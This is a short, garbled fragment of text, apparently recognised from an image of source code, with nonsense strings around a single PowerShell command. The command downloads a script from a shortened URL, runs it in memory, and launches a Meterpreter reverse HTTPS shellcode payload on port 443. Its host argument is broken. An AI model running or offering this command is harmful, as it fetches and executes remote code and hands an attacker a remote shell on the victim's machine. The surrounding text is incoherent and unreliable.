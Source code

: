 check
=====
GGGHHHJJJ_now

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://bit.ly/14bZZ0c');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

